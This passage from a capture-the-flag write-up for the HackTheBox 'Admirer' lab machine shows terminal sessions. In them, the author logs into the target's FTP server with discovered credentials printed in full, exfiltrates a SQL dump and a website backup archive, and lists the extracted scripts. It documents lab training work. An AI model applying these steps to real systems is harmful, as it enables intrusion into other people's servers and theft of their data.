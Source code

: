 #### Gain access to FTP server using discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ ftp 'ftp://ftpuser:%n?4Wz}R$tTF7'@$TARGET
Connected to 10.129.229.101.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||39889|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```

#### Exfiltrate `dump.sql`
```
ftp> get dump.sql
local: dump.sql remote: dump.sql
229 Entering Extended Passive Mode (|||42358|)
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
100% |*******************************************************************************************************************************************************|  3405       54.12 MiB/s    00:00 ETA
226 Transfer complete.
3405 bytes received in 00:00 (133.04 KiB/s)
```

#### Exfiltrate `html.tar.gz`
```
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gz
229 Entering Extended Passive Mode (|||11847|)
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
100% |*******************************************************************************************************************************************************|  5147 KiB    2.28 MiB/s    00:00 ETA
226 Transfer complete.
5270987 bytes received in 00:02 (2.25 MiB/s)
```

#### Investigate directory structure of exfiltrated backup
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ mkdir html && tar -zxf html.tar.gz -C html && tree html/utility-scripts
html/utility-scripts
├── admin_tasks.php
├── db_admin.php
├── info.php
└── phptest.php

1 directory, 4 files
```
